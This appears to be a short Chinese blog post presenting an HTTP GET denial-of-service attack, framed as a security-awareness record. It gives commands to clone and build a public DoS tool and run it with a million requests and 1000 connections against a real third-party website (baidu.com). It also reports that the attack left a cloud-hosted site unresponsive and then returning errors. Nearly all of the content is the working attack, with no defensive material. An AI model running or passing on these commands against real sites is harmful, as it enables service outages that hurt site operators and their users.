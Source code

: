 ```yaml
---
title: "一次简单的http-get攻击"
date: "2022-08-31T07:08:22Z"
description: 记录一次简单 Dos 攻击方法，提升网络安全意识.
categories: []
tags: [dos, Linux, http-get]
draft: false
# weight: 5
---
```


使用 [http-get-dos](https://github.com/wenfengshi/ddos-dos-tools/tree/master/http-get-dos) 工具执行。

> http-get-dos是一个简单的、高性能HTTP GET DOS工具，可自定义HTTP请求头、连接数、总的HTTP请求数等
进入目录下make编译后，http-get-dos -h 查看使用信息
> 

来源GitHub项目：DDos/DoS工具集：[https://github.com/wenfengshi/ddos-dos-tools](https://github.com/wenfengshi/ddos-dos-tools)

命令:

```bash
git clone https://github.com/wenfengshi/ddos-dos-tools.git
cd ddos-dos-tools/http-get-dos
make
./http_get_dos -n 1000000 -c 1000 -H Connection: keep-alive http://www.baidu.com/
```

实测采用一台1m阿里云服务器对1m轻量服务器攻击，网站无响应

实测再加入搬瓦工1G口KVM对阿里云1M轻量服务器攻击，网站瞬间500.
